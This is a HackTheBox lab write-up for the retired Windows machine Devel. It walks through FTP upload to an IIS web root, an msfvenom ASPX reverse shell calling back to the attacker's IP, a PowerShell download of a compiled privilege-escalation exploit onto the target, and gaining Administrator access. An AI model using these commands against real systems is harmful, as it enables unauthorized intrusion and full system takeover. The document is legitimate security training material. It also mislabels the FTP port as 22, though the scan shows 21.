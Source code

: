 ```yaml
---
title: Devel - HackTheBox Walkthrough
author: Degr4ne
date: 2021-10-19 12:00:00 
categories: [HackTheBox,Windows]
tags: [ftp,exploit]
math: false
mermaid: false
image:
  src: /assets/img/HTB/Devel/00-banner.png
  width: 593
  height: 369
---
```

Hello guys, welcome back with another walkthrough, this time we'll be doing `Devel` a retired windows machine from HackTheBox rated easy. Without further ado, let’s begin.
# Recon
## Nmap Scan
As always we'll start with a nmap scan to discover the open ports and services.
```console
$ cat nmap-scan 
# Nmap 7.91 scan initiated Mon Oct 18 19:50:31 2021 as: nmap -sC -sV -v -oN nmap-scan 10.129.239.45
Nmap scan report for 10.129.239.45
Host is up (0.13s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 18 19:50:51 2021 -- 1 IP address (1 host up) scanned in 19.91 seconds
```
There only two ports open `22:FTP` and `80:HTTP`.
## FTP Enumeration
Anonymous login is allowed in FTP. This means that we can login with the user `anonymous` and any password, inside the server there a image and a htm file that seems is the default page of IIS 7 (Internet Information Services).  

![01-ftp](/assets/img/HTB/Devel/01-ftp.png)

## HTTP Enumeration
If we go to the web, it show us the same default page of IIS 7 that there in FTP service.

![02-web](/assets/img/HTB/Devel/02-web.png)

Let's try to upload a test file to see if this services are connected by the same directory.

![03-ftp](/assets/img/HTB/Devel/03-ftp.png)

Going to `http://10.129.239.45/test.html` to open the test.html

![04-test](/assets/img/HTB/Devel/04-test.png)

# Initial Foothold
That's when I decided to generate a reverse shell using `msfvenom` with `aspx` format.
```console
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.75 LPORT=443 -f aspx -o RevShell.aspx
```
Once I uploaded to the FTP service and loaded in the browser this url `http://10.129.239.45/RevShell.aspx`. I got the shell in the netcat port listener.

![05-nc](/assets/img/HTB/Devel/05-nc.png)

I change the directory to `C:\Users` but I couldn't access to babis' home directory.

![06-dir](/assets/img/HTB/Devel/06-dir.png)

# Privilage Escalation
With `systeminfo`  we view information about the computer.

![07-systeminfo](/assets/img/HTB/Devel/07-systeminfo.png)

This machine is a `Microsoft Windows 7 Enterprise 6.1.7600` and is vulnerable to a [Local Privilege Escalation](https://www.exploit-db.com/exploits/40564).

![08-exploit](/assets/img/HTB/Devel/08-exploit.png)

A comment in the exploit explain how compile this script. `Mingw-w64` has to be installed.

```console
$ sudo apt install mingw-w64
$ i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32
```

To transfere the `.exe` I opened a server using python3 and ran the next command in the Windows machine.
```console
$ powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.75/40564.exe', 'C:\Windows\Temp\40564.exe')"
```

![09-authority](/assets/img/HTB/Devel/09-authority.png)

Execute it and now we are Administrators.

![10-root](/assets/img/HTB/Devel/10-root.png)

We got root.txt  
That’s it for now guys. Until next time.
